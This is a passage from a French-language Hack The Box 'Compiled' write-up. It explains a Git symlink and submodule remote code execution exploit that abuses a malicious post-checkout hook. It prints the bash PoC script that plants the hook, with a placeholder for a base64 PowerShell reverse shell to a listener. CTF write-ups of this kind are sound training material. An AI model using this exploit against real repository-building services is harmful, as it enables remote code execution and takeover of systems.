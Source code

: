 Un aspect essentiel de l'exploit consiste à exploiter la possibilité de Git de mettre à jour le répertoire `.git/` par le biais de liens symboliques. En créant un lien symbolique pointant vers `dotgit.txt`, nous trompons Git en traitant le contenu manipulé comme des métadonnées légitimes. Les contrôles de validation sont ainsi contournés, ce qui nous permet de placer notre payload dans le répertoire `.git/hooks`.

Enfin, nous soumettons l'URL du dépôt `venom` dans l'application cible qui clone et compile les dépôts. Au cours du processus de clonage, Git traite le sous-module et rencontre le hook malveillant post-checkout dans `scorpion`. Ce hook exécute notre payload, et établit une connexion avec notre listener.

## Accès initial

Tout d'abord, nous devons enregistrer un nouveau compte sur l'instance gitea.

![Gitea account creation](/images/HTB-Compiled/gitea_account_creation.png)

Nous créons également deux dépôts.

![Gitea exploit repositories](/images/HTB-Compiled/exploit_repos.png)

[Ici](https://github.com/amalmurali47/git_rce/blob/main/create_poc.sh), nous trouvons le script Bash utilisé pour le PoC, nous le modifions pour nos besoins.

Comme nous utilisons probablement un nouveau compte git, nous devons d'abord vérifier notre identité avec:

```
git config --global user.email "you@example.com"
git config --global user.name "Your Name"
```

Vous trouverez ci-dessous le script exact que j'ai utilisé, vous devez y ajouter une commande de reverse shell.

> Si vous avez choisi des noms différents pour vos dépôts, vous devrez les modifier dans le script.

```bash
#!/bin/bash

# Configure Git settings for exploitation
git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main

# Clone the malicious repository (scorpion)
git clone http://compiled.htb:3000/kscorpio/scorpion.git
cd scorpion

# Set up the post-checkout hook with the reverse shell payload
mkdir -p y/hooks
cat >y/hooks/post-checkout <<EOF
#!/bin/sh
<INSERT YOUR PowerShell #3 (Base64) reverse shell from revshells.com here>
EOF

# Make the hook executable
chmod +x y/hooks/post-checkout

# Commit the hook to the repository
git add y/hooks/post-checkout
git commit -m "post-checkout"
git push

# Clone the venom repository and add the malicious submodule
cd ..
git clone http://compiled.htb:3000/kscorpio/venom.git
```